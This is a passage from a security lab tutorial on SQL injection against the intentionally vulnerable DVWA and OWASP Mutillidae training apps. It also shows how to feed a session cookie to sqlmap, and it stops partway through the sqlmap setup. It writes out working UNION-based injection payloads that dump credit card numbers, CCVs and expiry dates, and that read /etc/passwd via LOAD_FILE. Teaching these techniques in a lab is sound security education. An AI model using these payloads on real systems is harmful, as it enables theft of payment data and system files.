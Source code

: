 ### Display credit card information 

Display credit card numbers, CCV, and expiration date from `credit_cards` table.

Note: the route's query is designed to return only two fields, so we must concatenate (`CONCAT`) the last two fields in our `UNION`'ed query.

`' and 1=0 union select null, CONCAT(0x0a, ccnumber, 0x0a, ccv, 0x0a, expiration) from owasp10.credit_cards#`

### Print contents of the passwd file

`' union select null, LOAD_FILE('/etc/passwd') #`

## SQLMap demo

You can automate testing for and exploiting SQL injection vulnerabilities using the open-source python tool [`sqlmap`](https://github.com/sqlmapproject/sqlmap). This tool comes pre-installed in Kali. 

### Provide a valid COOKIE

To probe DVWA's `/dvwa/vulnerabilities/sqli/` route, `sqlmap` needs to be able to make authenticated requests. This means we need to first log in to DVWA, and then give `sqlmap` our session cookie.

In Firefox on Kali, after you have logged into DVWA, open the developer console (press `F12`) and select `Console`. Run the command `document.cookie` to view the cookies for the current site:

{% include lab-image.html image='dvwa-console-cookie.png' %}

Copy the output. You will pass this to `sqlmap` as the `--cookie` argument. This will let `sqlmap` make authenticated requests, and the DVWA security will be set to "LOW" for those requests. 

For convenience, set your cookie value to a variable in your shell session using `export`. This will work for the lifetime of your shell. For example, if my cookie were as shown in the image below, I would run the following (displayed as a screenshot to prevent copy-pasting, which will not work):

{% include lab-image.html image='dvwa-console-cookie-export.png' %}

And then all of my later commands would access this variable via `--cookie="$COOKIE"`. The example commands below use this variable. **This will not work if you do not set your `COOKIE` variable to the value from your own session.**

A correct `COOKIE` usage will look like this:

{% include lab-image.html image='dvwa-sqlmap-correct-cookie.png' %}

<div class='alert alert-danger'><strong>Heads up!</strong> Be sure to <code>export</code> your own valid <code>COOKIE</code> variable in your shell session before using the code examples below. If you do not provide a valid session cookie, then <code>sqlmap</code> will report that you are being redirected to <code>/dvwa/login.php</code>, as shown below. 

{% include lab-image.html image='dvwa-sqlmap-login-redirect.png' %}

<p>If you see this, then go back and <code>export</code> a fresh cookie.</p>

</div>

### Provide a valid target URL
